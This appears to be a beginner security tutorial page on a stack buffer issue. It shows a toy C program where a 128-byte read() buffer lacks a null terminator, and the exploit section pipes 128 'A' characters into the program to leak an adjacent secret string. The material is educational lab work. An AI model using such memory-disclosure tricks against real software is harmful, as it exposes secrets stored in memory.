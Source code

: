 # Stack 0verflow

### AIM:
To print the secret.

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### Stack

```
+--------------------+
| FUNCTION ARGUMENTS |
+====================+
| RETURN (RET)       |
+--------------------+
| SECRET[]           |
+--------------------+
| KEY[128]           |
+--------------------+ 
```

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with 128 bytes.
3. User input will be stored in buffer variable using `read` function.
4. Finally User input will be echoed back with welcome using printf.


```bash
┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Stack0verflow]
└──╼ $./snippet 
Guest
Welcome Guest
```

### Exploit:

Enter any random string of len 128.

```bash

┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Stack0verflow]
└──╼ $echo "AAAAAAAAAAAAAAAA...........AAAAAAAAA" | ./snippet
Welcome AAAAAAAAAAAAAAAA...........AAAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.
So basically,`*read will not add null at the end of the string*` like scanf does.



### Practice
- [Task](Practice-1.html)
